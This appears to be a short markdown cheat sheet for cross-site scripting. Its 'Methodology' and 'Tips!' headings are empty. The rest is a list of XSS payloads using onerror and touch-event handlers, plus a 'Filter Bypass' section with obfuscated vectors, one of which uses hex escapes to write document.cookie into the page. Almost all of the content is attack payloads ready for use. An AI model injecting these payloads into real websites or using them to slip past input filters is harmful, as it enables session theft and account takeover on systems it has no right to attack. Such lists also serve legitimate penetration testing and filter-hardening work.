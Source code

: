 
### 1.Methodology


### 2.Tips!


### 3.Payloads
```
<audio src=x onerror=alert(0)>
<video src=x onerror=alert(0)>
<script src=x onerror=alert(0)>
<img src=x onerror=alert`1`>
<img src=x onerror=confirm`1`>
<body ontouchstart=alert(45)> 
<body ontouchend=alert(45)>   
<body ontouchmove=alert(45)>
```

#### 3.1 Filter Bypass
```
[1].map(alert)
(alert)(1)
javascript:setTimeout`\x64ocument.write\x28\x64ocument.\x63ookie\x29`
```
